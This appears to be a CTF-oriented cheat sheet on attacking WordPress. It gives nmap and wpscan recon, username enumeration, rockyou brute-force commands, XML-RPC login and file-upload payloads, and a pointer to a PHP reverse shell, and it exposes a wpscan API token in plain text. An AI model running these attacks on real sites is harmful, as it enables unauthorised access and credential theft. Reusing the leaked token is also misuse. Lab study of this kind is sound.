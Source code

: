 ```yaml
---
layout: post
title: Wordpress
description: Wordpress
summary: Wordpress
tags: [web,enum,wordpress]
minute: 2
---
```

## Version
* On meta generators

![](Wordpress/3101332D-061A-4AFA-ACEA-18A476551E16.png)

* Check interesting URL paths below

## Credentials
* Seems you really need to find valid credentials to wordpress before exploiting
* Try going to `/?author=1` and enumerate from there to see the usernames
* There is no default credentials. Installation will ask user to provide the creds.
* You can guess valid usernames though

![](Wordpress/FCE001CA-BCC0-44B1-94FF-9B2152812FDF.png)

## Recon
```bash
# Kickoff nmap
nmap -p80 --script http-wordpress-enum,http-wordpress-users 10.10.71.200

# Using wpscan (you can remove api token but some
# information will not be displayed)
# NOTE: wpscan may not report all vulnerabilities specially
# on plugins
wpscan --url http://10.10.10.29 --api-token g9UH90Nh1cssy7LFYTbhRUSaifo4XRHzap4el2v34b4

# Similar to above but on another path
wpscan --url http://10.10.10.29/wordpress --api-token g9UH90Nh1cssy7LFYTbhRUSaifo4XRHzap4el2v34b4
```

* Check for `colorlib` in HTML elements. This is a WP plugin.

## Interesting URL Paths
```bash
# you may find version here
/wp-links-opml
/wp-links-opml.php
/readme.html

# uploads directory
/wp-content/uploads/YYYY/DD/FILENAME

# login
/wp-login.php
```

## Interesting files
```bash
# DB credentials
wp-config.php
```

## Brute Force
```bash
# Using nmap
map -p80 --script http-wordpress-brute 10.10.10.29

# User IDs can be extracted from here. You can use
# burp sniper intruder and generate a list of user
# id from 1 to 100 using bash for loop.
curl -s -I -X GET http://10.10.10.29/?author=1

# You can use this python script from
# https://github.com/relarizky/wpxploit
# This can take around 30 minutes to complete
# TIP: try using "admin" as username first
cd ~/data/tools/webapp/wpxploit
./exploit.py http://10.10.127.229/wordpress 5 15

# You can also use wpscan
wpscan --url http://10.10.127.229/wordpress --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

* Once you have the credentials, try [[PHP Reverse Shell]]
* TIP: bruteforce is done by sending this POST data containing username and password

```xml
<methodCall>
  <methodName>
    wp.getUsersBlogs
  </methodName>
  <params>
    <param>
      <value>
        admin
      </value>
    </param>
    <param>
      <value>
        gansta1
      </value>
    </param>
  </params>
</methodCall>
```

## Interesting URL Paths
```bash
# most can be reported by wpscan
/wp-content/uploads/
/wp-admin/
/wp-admin/update-core.php
/wp-admin/upgrade.php
/install.php
/wp-cron.php

# can accept post requests if active
/xmlrpc.php

# others
/plugins
/wp-content/plugins
```

For xmlrpc.php, you can use burpsuite to send some POST requests like this.

```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.29
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

## XML RPC calls
```bash
# List all method calls
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

# Get blogs
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>

# Uploading a file
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

## Themes
* Maybe you can also find theme exploits?

![](Wordpress/17000E5E-19E8-4681-A8D6-E9D0AA546605.png)

## Plugins
* You can search for plugin exploits also, one way of determining the plugin used is via html elements. Version can also be determined there.

![](Wordpress/98C48061-F8E3-4613-B122-E45B3D750365.png)

![](Wordpress/0B054482-2FAF-43DA-B89C-1A847D63C7D9.png)

* You can also add `--plugins-detection aggressive --plugins-version-detection aggressive` in `wpscan`

## Troubleshoting
* Sending `POST` to `/xmlrpc.php` produces 200 OK but with `parse error. not well formed` message most likely caused by [missing php/xml parser library](https://github.com/maxcutler/python-wordpress-xmlrpc/issues/110) inside the server. I encountered this in HTB Tenten.

## References
* [Wordpress - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress)
* HTB Tenten
